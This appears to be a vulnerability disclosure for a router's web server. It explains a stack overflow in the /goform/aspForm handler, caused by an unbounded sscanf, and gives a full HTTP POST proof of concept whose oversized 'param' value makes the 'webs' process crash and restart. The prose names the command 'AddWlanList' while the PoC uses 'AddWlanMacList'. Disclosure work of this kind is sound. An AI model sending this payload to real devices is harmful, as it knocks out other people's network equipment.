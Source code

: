 ## Vulnerability

In route`/goform/aspForm`, the value of the key `CMD` is `AddWlanList`, the program will go into the following handling function.

![image-20230610001851841](assets/image-20230610001851841.png)

First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v7` on the stack. The parameter `%[^;]` of `sscanf` didn't limit the copy length.

![image-20230610001930185](assets/image-20230610001930185.png)

## PoC

```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=AddWlanMacList&param=1;aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;;
```

## Result

the process `webs` restart

![image-20230610123959597](assets/image-20230610123959597.png)
